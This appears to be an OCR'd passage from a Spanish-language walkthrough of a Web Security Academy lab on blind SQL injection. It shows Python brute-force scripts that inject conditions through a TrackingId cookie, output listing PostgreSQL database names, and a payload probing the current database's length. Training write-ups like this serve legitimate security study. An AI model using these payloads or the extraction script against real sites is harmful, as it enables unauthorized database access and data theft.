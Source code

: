 ```
                    'session': "U5B4rAdfDeA17C0bpxxIIgkGM6pmjjeX"
                }

                p1.status(cookies['TrackingId'])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

Estas son las `bases` de `datos` obtenidas

```
# python3 sqli_conditional_response.py
[▘] Fuerza bruta: LNchxAn9oOJqOKHw' and (select substr(string_agg(datname,', '),44,1) from+pg_database)='_'-- - 
[▗] Output: postgres,+template1,+template0,+academy_labs
```

`Identificamos` la `base` de `datos` que está en uso actualmente

```
Cookie: TrackingId=Pls1hO5hFWG9D8iI'+and+length(current_database())=12--+-+; session=9Urch8ydtajImJUb0xQSyEsITyiiKOfw
```

`Modificamos` el `script` de `python` para `obtener` la `base de datos actual`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a4600750477326c80527b1d00dd00c0.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 13):
            for character in characters:
                cookies = {
```
